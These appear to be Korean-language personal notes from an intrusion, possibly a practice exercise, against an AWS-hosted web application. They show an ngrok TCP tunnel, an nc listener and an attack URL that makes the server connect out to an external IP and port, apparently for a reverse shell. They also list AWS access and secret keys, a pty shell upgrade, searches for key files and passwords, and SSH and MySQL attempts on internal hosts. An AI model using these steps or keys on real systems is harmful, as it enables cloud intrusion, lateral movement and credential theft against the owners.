 * ./ngrok tcp 8888
*  nslookup 해당 열린 url ip 및 포트 확인 
* nc -lvp 8888 
* http://aaaa-elb-1724495853.ap-northeast-2.elb.amazonaws.com:3000/api/qna/filedown/attack?ip=18.177.60.68&port=16728


**aws 서버 접속 정보**
aws_access_key_id = ASIAX7VPRS2F2IFHQJ4M
aws_secret_access_key = biZ2dzkLHhTBCUlL6Ts65hXwS0GExKpuOdUeivmC

ASIAX7VPRS2FR4GCHGV3
gVsl44VfB5oUp64Elq0GiATbhPU/8m6Fmq4vOvBH

> 파일찾기

`find / -name '*.pem'`


ap-northeast-2

   
dns : aaaa-elb-1724495853.ap-northeast-2.elb.amazonaws.com
ip - 
43.200.251.188
15.164.65.239

현재 접속아이피 
10.0.50.163 


ssh -i "키이름.pem" [유저네임]@ec2-[접속IP].ap-northeast-2.compute.amazonaws.com


ssh -i ubuntu@ec2.43.200.251.188.ap-northeast-2.compute.amazonaws.com


보기편하게
python3 -c 'import pty; pty.spawn("/bin/bash")'


1.
다른네트워크와 연결 하는지 확인하는방법 


netstat -antp 

ssh root@10.0.1.158   publickey 필요 
ssh root@10.0.2.22
ssh root@10.0.1.225
ssh root@52.95.194.54

mysql -ufinsshack -p -h10.0.1.158

grep -rinoE 'root'
grep / rinoE 'root'
grep -rinoE 'pass' /

grep -rinoE 'finsshack' / 

.ssh > authorized_keys 에 finsshack 정보 있음 

